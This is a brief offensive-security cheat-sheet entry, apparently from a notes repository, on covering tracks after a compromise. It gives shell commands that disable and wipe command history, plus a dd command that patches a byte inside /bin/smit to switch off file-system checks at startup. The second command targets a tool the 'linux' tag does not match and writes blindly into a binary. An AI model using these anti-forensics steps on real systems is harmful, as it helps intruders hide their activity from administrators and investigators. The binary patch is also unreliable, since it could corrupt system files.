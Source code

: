 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-forensics
  - T1070-002
  - linux
---
```

# Disable Logs

## 01 - Command History

```
$ export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE
```

## 02 - File System Verification on Startup

```
$ printf "t" | dd of=/bin/smit bs=1 count=1 conv=notrunc seek=22866 2>/dev/null
```